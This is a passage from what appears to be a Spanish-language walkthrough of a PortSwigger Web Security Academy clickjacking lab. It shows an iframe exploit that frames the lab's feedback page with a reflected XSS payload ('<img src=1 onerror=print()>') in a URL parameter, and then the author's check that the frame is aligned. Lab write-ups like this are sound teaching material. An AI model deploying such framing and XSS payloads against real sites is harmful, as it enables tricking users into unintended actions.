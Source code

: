 ```
<iframe src="https://0abc00e1044662e9828fa7c9008500b8.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

![](/assets/img/Clickjacking-Lab-4/image_15.png)

Pinchamos sobre `View exploit` y vemos que todo está bien centrado

![](/assets/img/Clickjacking-Lab-4/image_16.png)
